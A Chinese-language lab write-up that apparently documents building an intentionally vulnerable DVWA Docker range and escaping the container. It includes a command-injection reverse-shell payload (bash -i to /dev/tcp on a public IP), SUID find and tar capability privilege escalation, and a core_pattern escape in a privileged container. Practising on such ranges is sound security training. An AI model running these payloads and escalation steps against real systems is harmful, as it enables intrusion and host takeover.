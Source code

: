 ```yaml
---
categories: [Docker]
tags: [容器逃逸]
---
```


# 2023.08.28

## 0x01 环境搭建

使用到的机器：sec-container2（IP：10.255.200.87）、阿里云 vps（8.130.104.104）、本地 kali 虚拟机（10.211.55.4）

### 1.1 Dockerfile 如下：

```bash
# 基于基础镜像centos-lamp进行自定义
FROM dockerfiles/centos-lamp
# 将工作目录设置为/var/www/html 接下来的操作都在这个目录下进行
WORKDIR /var/www/html
# 使用wget下载文件 然后解压到当前工作目录 --strip-components=1表示解压时去掉一个顶层目录
RUN wget https://github.com/RandomStorm/DVWA/archive/v1.0.8.tar.gz -O- | tar xvz --strip-components=1
# 启动mysql服务 使用mysqladmin命令将root用户的密码改为p@ssw0rd 停止mysql服务
RUN service mysqld start && mysqladmin -uroot password p@ssw0rd && service mysqld stop
# 容器将监听并暴露在主机上的80端口，以便通过主机的80端口访问容器中的web服务
EXPOSE 80
USER root
# 更换镜像源（需提前将Centos-vault-6.10.repo从https://mirrors.aliyun.com/repo/Centos-vault-6.10.repo目录下载到本地）
COPY ./Centos-vault-6.10.repo /home
COPY ./here_u_r.txt /root
COPY ./open_me.txt /home
WORKDIR /home
RUN rm -rf /etc/yum.repos.d/*
RUN cp -r ./Centos-vault-6.10.repo /etc/yum.repos.d/CentOS-Base.repo
RUN yum clean all
RUN yum makecache
WORKDIR /var/www/html
# 安装sudo
RUN rpm --rebuilddb && yum install -y sudo && yum install -y gcc
# 给用户apache设置密码
RUN echo 'apache:%Kin,qnEfJQ]r;YY' | chpasswd
# 给find指令设置suid权限+除root用户外其他用户不能执行getcap指令+给tar指令设置cap_dac_read_search capability
RUN chmod u+s $(which find) && \
    chmod 700 $(which getcap) && \
    setcap 'cap_dac_read_search=ep' $(which tar)
# apache用户可以使用sudo passwd修改密码
RUN echo 'apache ALL=(ALL) /usr/bin/passwd' > /etc/sudoers.d/apache-password
CMD ["supervisord", "-n"]
```

~~注：由于本地的虚拟机可以找到内网的 sec-container2 机器，但是内网机器无法找到 kali 虚拟机，因此需要在 vps 与 kali 之间进行端口映射。~~

注：可以直接在内网机器和 vps 之间进行端口映射。内网机器为客户端，vps 为服务端。配置好之后可以直接利用公网 ip+相应端口访问相应的服务。

### 1.2 使用 frp 配置端口映射：

frp：内网穿透和反向代理软件，支持 tcp，udp，http，https 等协议

#### 1.2.1 工作原理：

- 服务端运行，监听一个主端口，等待客户端的连接；
- 客户端连接到服务端的主端口，同时告诉服务端要监听的端口和转发类型；
- 服务端 fork 新的进程监听客户端指定的端口；
- 外网用户连接到客户端指定的端口，服务端通过和客户端的连接将数据转发到客户端；
- 客户端进程再将数据转发到本地服务，从而实现内网对外暴露服务的能力。
-

#### 1.2.2 具体流程：

可参考[frp](https://www.cnblogs.com/henry666/p/13966992.html)

<font color="#808080">注：需要给 vps 相应端口添加安全组入方向访问规则。</font>

<u>根据靶场的设计思路，需要设置两个端口映射（3333<---->5555；4444<---->6666</u>

```bash
# 阿里云vps:frp服务端
[common]
bind_port = 7000

dashboard_port = 7777

dashboard_user = admin

dashboard_pwd = admin

# 启动服务端服务
./frps -c ./frps.ini
```

```bash
# kali虚拟机：frp客户端
[common]
server_addr = 8.130.104.104
server_port = 7000

[forward1]
type = tcp
local_ip = 127.0.0.1
local_port = 4444
remote_port = 6666

[forward2]
type = tcp
local_ip = 127.0.0.1
local_port = 3333
remote_port = 5555

#启动客户端服务
./frpc -c ./frpc.ini
```

---

### 1.3 宿主机启动容器

```bash
# 使用Dockerfile创建自定义的镜像
docker build -t dvwa .
# 以守护进程模式后台+特权模式启动容器，映射80端口，挂载宿主机procfs
docker run --privileged -d -p 80 -v /proc/sys/kernel/core_pattern:/host/proc/sys/kernel/core_pattern dvwa
```

![image2023-8-28_14-13-16.png](https://s2.loli.net/2023/10/08/fy2xhaDXSk9PMRJ.png)

### 1.4 kali 端：

1. 打开浏览器，使用**ip 地址+相应端口（10.255.200.87:32774）**在浏览器中访问 dvwa 服务（初始化步骤省略）
2. 任意利用其中某个漏洞，进行反弹 shell（此处使用命令注入漏洞）
   1. 在终端窗口中开启 nc 监听（nc -nlvp 4444）
   2. 命令注入输入框输入<code>;bash -i >& /dev/tcp/8.130.104.104/6666 0>&1</code>获取 shell
      ![image2023-8-28_14-18-56.png](https://s2.loli.net/2023/10/08/pf4ighKaJSQ6bNx.png)
3. **/home**目录下存在一个 txt 文件
   ![image2023-8-28_14-27-43.png](https://s2.loli.net/2023/10/08/r2OiWwlYBZTzaXM.png)
4. 使用 find 指令查找具有 suid 权限的指令 <code>find / -perm -u=s -type f 2>/dev/null</code>
   1. ![image2023-8-28_14-22-11.png](https://s2.loli.net/2023/10/08/nHzxh6u4TrALEp7.png)
   2. 在/tmp 目录下新建一个文件，利用 find 指令的-exec 选项执行指令 <code>find 1 -exec getcap -r / 2>/dev/null \;</code>
   3. ![image2023-8-28_14-26-0.png](https://s2.loli.net/2023/10/08/YieAUL9nQCcS1hr.png)
5. 使用 tar 指令将/root 目录压缩至/tmp 目录，解压查看目录下文件
   1. ![image2023-8-28_14-29-34.png](https://s2.loli.net/2023/10/08/lnUNtTX3xYmrujo.png)
   2. ![image2023-8-28_14-29-34.png](https://s2.loli.net/2023/10/08/lnUNtTX3xYmrujo.png)
   3. brainfuck->base64-><code>,%Kin,qnEfJQ]r;YY</code>
6. 将当前 shell 切换为完整 tty，成功后输入该字符串，修改密码
   ![image2023-8-28_14-35-1.png](https://s2.loli.net/2023/10/08/wulVSzNyC5jKMOm.png)
7. 尝试使用 su 指令登录 root 用户
   ![image2023-8-28_14-36-47.png](https://s2.loli.net/2023/10/08/wuIUpbSvLeNjG9m.png)
8. 参考[Docker 容器逃逸](https://wuheuu.github.io/docker/Docker容器逃逸/)中 3.2 部分进行利用，.x.py 文件中 ip 地址设置为 8.130.104.104，端口设置为 5555。kali 开启 3333 端口监听，在之前的 shell 中执行 x 文件，制造崩溃，拿到 shell。
   ![image2023-8-28_14-42-23.png](https://s2.loli.net/2023/10/08/VW26reyTMJnSBEu.png)
9. 将 shell 切换为完整 tty，使用<code>export PATH=$PATH:/usr/sbin</code>添加/usr/sbin 环境变量，执行 ifconfig 指令。
   1. 逃逸出来
      ![image2023-8-28_14-44-9.png](https://s2.loli.net/2023/10/08/zqHA1XBkrMogLCG.png)
   2. 与容器内 ifconfig 返回结果进行对比
      ![image2023-8-28_14-45-6.png](https://s2.loli.net/2023/10/08/Pby8VjXiBsmSHwo.png)

---

## 0x02 附录：

- 正向 shell 与反向 shell（bind shell & reverse shell）**具体可看参考资料(3)**
  - 正向 shell：攻击者可以在靶机上启动一个服务，从而使得攻击者可以连接这个服务并执行一些命令。如果要启动一个 bind shell，攻击者必须有目标机器的 ip 地址。
  - 反向 shell：攻击者需要在攻击端机器上启动一个服务器，靶机作为客户端来连接这个服务器。成功连接后，攻击者可以得到靶机的 shell。要使用反向 shell，攻击者不需要知道目标机器 ip 地址。
- 运行容器时注意需要开启--privileged 选项或者使用--cap-add，否则很多指令将无法执行，即使用户在容器内是 root 身份
- 在反弹的 shell 中有些命令无法执行可能是由于忘记将 shell 切换为完整 tty
- 尝试修改密码时出现 passwd:passwd: system_u:system_r:spc_t:s0 is not authorized to change the password of root，原因是宿主机未关闭 SElinux 强制访问控制，需要关闭后重启宿主机，并使用 getenforce 进行验证。

---

## 0x03 参考资料：

1. [frp](https://www.cnblogs.com/henry666/p/13966992.html)
2. [bind shell & reverse shell](https://www.geeksforgeeks.org/difference-between-bind-shell-and-reverse-shell/)
3. [正向 shell 与反向 shell](https://blog.csdn.net/weixin_45936149/article/details/123752352)
